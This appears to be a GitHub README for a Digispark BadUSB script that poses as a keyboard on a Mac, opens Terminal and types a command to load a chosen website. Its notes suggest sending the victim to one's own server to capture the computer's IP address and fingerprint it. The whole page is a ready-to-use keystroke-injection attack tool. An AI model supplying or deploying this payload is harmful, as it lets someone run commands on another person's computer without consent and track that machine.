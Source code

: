# Website Pop-up

#### This script pops up a chosen website onto the computer.

### Code

```c
#include "DigiKeyboard.h"
#define MOD_CMD_LEFT 0x00000008 //marks the keyboard location for the Command key
boolean hack = true;

void setup() {
  // put your setup code here, to run once:
}

void loop() {
  // put your main code here, to run repeatedly:
  if (hack == true){
    DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_CMD_LEFT); //Command + Space
    DigiKeyboard.delay(500); //5 milisecond delay
    DigiKeyboard.print("Terminal"); //Opens the Terminal
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("open <enter web URL here>"); //Enter your own website here
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    hack = false; //Changes the boolean to false
  }
}
```

### Notes

This code is used to pop open a website of any sort to the computer, as long as there is an internet connection. You can also use it to access your own server, thus getting the IP and maybe even fingerprint the computer. 

